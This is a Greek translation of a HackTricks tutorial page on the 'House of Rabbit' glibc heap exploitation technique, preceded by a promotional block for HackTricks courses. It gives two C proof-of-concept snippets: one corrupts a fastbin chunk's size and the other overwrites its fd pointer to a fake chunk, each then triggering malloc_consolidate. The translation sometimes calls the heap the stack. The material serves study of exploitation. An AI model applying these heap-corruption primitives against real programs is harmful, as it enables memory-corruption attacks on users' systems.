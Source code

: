 # Σπίτι του Κουνελιού

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Ερυθρού Συνεργείου AWS του HackTricks)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

### Απαιτήσεις

1. **Ικανότητα να τροποποιήσετε τον δείκτη fd ή το μέγεθος του fast bin**: Αυτό σημαίνει ότι μπορείτε να αλλάξετε τον προωθούμενο δείκτη ενός τμήματος στο fastbin ή το μέγεθός του.
2. **Ικανότητα να ενεργοποιήσετε το `malloc_consolidate`**: Αυτό μπορεί να γίνει είτε με την εκχώρηση ενός μεγάλου τμήματος είτε με τη συγχώνευση του κορυφαίου τμήματος, το οποίο αναγκάζει τη συγχώνευση των τμημάτων του σωρού.

### Στόχοι

1. **Δημιουργία επικαλυπτόμενων τμημάτων**: Να υπάρχει ένα τμήμα που επικαλύπτεται με ένα άλλο, επιτρέποντας περαιτέρω χειρισμούς στο σωρό.
2. **Δημιουργία ψεύτικων τμημάτων**: Να εξαπατήσετε τον εκχωρητή ώστε να θεωρεί ένα ψεύτικο τμήμα ως έγκυρο τμήμα κατά τις λειτουργίες του σωρού.

## Βήματα της επίθεσης

### POC 1: Τροποποίηση του μεγέθους ενός τμήματος fast bin

**Στόχος**: Δημιουργία ενός επικαλυπτόμενου τμήματος με την τροποποίηση του μεγέθους ενός τμήματος fastbin.

* **Βήμα 1: Εκχώρηση Τμημάτων**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Βήμα 2: Απελευθέρωση Χύματων**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **Βήμα 3: Τροποποίηση Μεγέθους Χάνκ**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **Βήμα 4: Ενεργοποίηση της `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Η δέσμευση ενός μεγάλου κομματιού ενεργοποιεί τη λειτουργία `malloc_consolidate`, συγχωνεύοντας μικρά κομμάτια στο γρήγορο bin. Το χειρισμένο μέγεθος του `chunk1` προκαλεί επικάλυψη με το `chunk2`.

Μετά τη συγχώνευση, το `chunk1` επικαλύπτεται με το `chunk2`, επιτρέποντας περαιτέρω εκμετάλλευση.

### POC 2: Τροποποίηση του δείκτη `fd`

**Στόχος**: Δημιουργία ψεύτικου κομματιού με τη χειρισμό του δείκτη `fd` του γρήγορου bin.

* **Βήμα 1: Δέσμευση Κομματιών**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Εξήγηση**: Δεσμεύουμε δύο τμήματα, ένα μικρό και ένα μεγαλύτερο, για να ρυθμίσουμε τη στοίβα για το ψεύτικο τμήμα. 

* **Βήμα 2: Δημιουργία ψεύτικου τμήματος**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Βήμα 3: Απελευθέρωση του `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Εξήγηση**: Απελευθερώνουμε το `chunk1`, προσθέτοντάς το στη λίστα fastbin.

* **Βήμα 4: Τροποποίηση του `fd` του `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Εξήγηση**: Αλλάζουμε τον προωθούμενο δείκτη (`fd`) του `chunk1` ώστε να δείχνει στο ψεύτικο chunk μας μέσα στο `chunk2`.

* **Βήμα 5: Ενεργοποίηση της `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Η εκχώρηση ενός μεγάλου κομματιού ξανά ενεργοποιεί το `malloc_consolidate`, το οποίο επεξεργάζεται το ψεύτικο κομμάτι.

Το ψεύτικο κομμάτι γίνεται μέρος της λίστας fastbin, καθιστώντας το ένα νόμιμο κομμάτι για περαιτέρω εκμετάλλευση.

### Σύνοψη

Η τεχνική **House of Rabbit** περιλαμβάνει είτε την τροποποίηση του μεγέθους ενός κομματιού fast bin για τη δημιουργία επικαλυπτόμενων κομματιών είτε τη χειραγώγηση του δείκτη `fd` για τη δημιουργία ψεύτικων κομματιών. Αυτό επιτρέπει στους εισβολείς να δημιουργήσουν νόμιμα κομμάτια στη στοίβα, ενεργοποιώντας διάφορες μορφές εκμετάλλευσης. Η κατανόηση και η εξάσκηση αυτών των βημάτων θα βελτιώσει τις δεξιότητές σας στην εκμετάλλευση της στοίβας.

